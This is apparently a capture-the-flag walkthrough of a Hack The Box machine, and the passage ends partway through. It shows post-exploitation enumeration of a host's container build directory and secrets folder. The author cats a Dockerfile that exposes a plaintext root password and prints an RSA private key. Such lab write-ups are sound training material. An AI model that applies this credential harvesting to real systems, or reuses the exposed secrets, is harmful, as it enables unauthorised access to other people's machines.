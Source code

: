 ```bash
cd /common
ls -la
total 20
drwxr-xr-x  5 root root 4096 Sep 23 18:36 .
drwxr-xr-x 36 root root 4096 Nov 13 15:10 ..
drwxrwxr-x  2 root root 4096 Sep 24 00:59 .secrets
drwxr-xr-x  6 root root 4096 Sep 23 18:32 containers
drwxr-xr-x  2 root root 4096 Sep 24 02:27 network
cd containers
ls -la
total 24
drwxr-xr-x 6 root root  4096 Sep 23 18:32 .
drwxr-xr-x 5 root root  4096 Sep 23 18:36 ..
drwxr-xr-x 2 root input 4096 Nov 13 14:36 bastion-live
drwxr-xr-x 5 root input 4096 Nov 13 14:36 blog-test
drwxr-xr-x 3 root root  4096 Nov 13 14:36 convert-live
drwxr-xr-x 5 root root  4096 Nov 13 14:36 waf-live
```

Inside the `containers` directory what look like the build environments of all the containers running on this host.  This is especially useful as we can see the root password, if it was changed, for each of these containers within their Dockerfiles.  No hash cracking needed down the line.

```
root@ezra:/common/containers/blog-test# cat Dockerfile
FROM internal_htb/docker-apache
RUN echo "root:Ib3!kTEvYw6*P7s" | chpasswd
RUN apt-get update
RUN apt-get install python -y
RUN mkdir /common
root@ezra:/common/containers/blog-test# cat start.sh
docker run \
-v /dev/null:/root/.sh_history \
-v /dev/null:/root/.bash_history \
--restart on-failure:5 \
--net arieka-test-net --ip 172.24.0.2 \
-h beehive.ariekei.htb --name blog-test -dit \
-v /opt/docker:/common:ro \
-v $(pwd)/cgi:/usr/lib/cgi-bin:ro \
-v $(pwd)/config:/etc/apache2:ro \
-v $(pwd)/logs:/var/log/apache2 \
-v /home/spanishdancer:/home/spanishdancer:ro  web-template
```

In the `.secrets` directory we see two RSA keys.

```
drwxrwxr-x 2 root root 4096 Sep 24 00:59 .
drwxr-xr-x 5 root root 4096 Sep 23 18:36 ..
-r--r----- 1 root root 1679 Sep 23 17:51 bastion_key
-r--r----- 1 root root  393 Sep 23 17:51 bastion_key.pub
cat bastion_key
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA8M2fLV0chunp+lPHeK/6C/36cdgMPldtrvHSYzZ0j/Y5cvkR
SZPGfmijBUyGCfqK48jMYnqjLcmHVTlA7wmpzJwoZj2yFqsOlM3Vfp5wa1kxP+JH
g0kZ/Io7NdLTz4gQww6akH9tV4oslHw9EZAJd4CZOocO8B31hIpUdSln5WzQJWrv
pXzPWDhS22KxZqSp2Yr6pA7bhD35yFQ7q0tgogwvqEvn5z9pxnCDHnPeYoj6SeDI
T723ZW/lAsVehaDbXoU/XImbpA9MSF2pMAMBpT5RUG80KqhIxIeZbb52iRukMz3y
5welIrPJLtDTQ4ra3gZtgWvbCfDaV4eOiIIYYQIDAQABAoIBAQDOIAUojLKVnfeG
K17tJR3SVBakir54QtiFz0Q7XurKLIeiricpJ1Da9fDN4WI/enKXZ1Pk3Ht//ylU
P00hENGDbwx58EfYdZZmtAcTesZabZ/lwmlarSGMdjsW6KAc3qkSfxa5qApNy947
QFn6BaTE4ZTIb8HOsqZuTQbcv5PK4v/x/Pe1JTucb6fYF9iT3A/pnXnLrN9AIFBK
/GB02ay3XDkTPh4HfgROHbkwwverzC78RzjMe8cG831TwWa+924u+Pug53GUOwet
A+nCVJSxHvgHuNA2b2oMfsuyS0i7NfPKumjO5hhfLex+SQKOzRXzRXX48LP8hDB0
G75JF/W9AoGBAPvGa7H0Wen3Yg8n1yehy6W8Iqek0KHR17EE4Tk4sjuDL0jiEkWl
```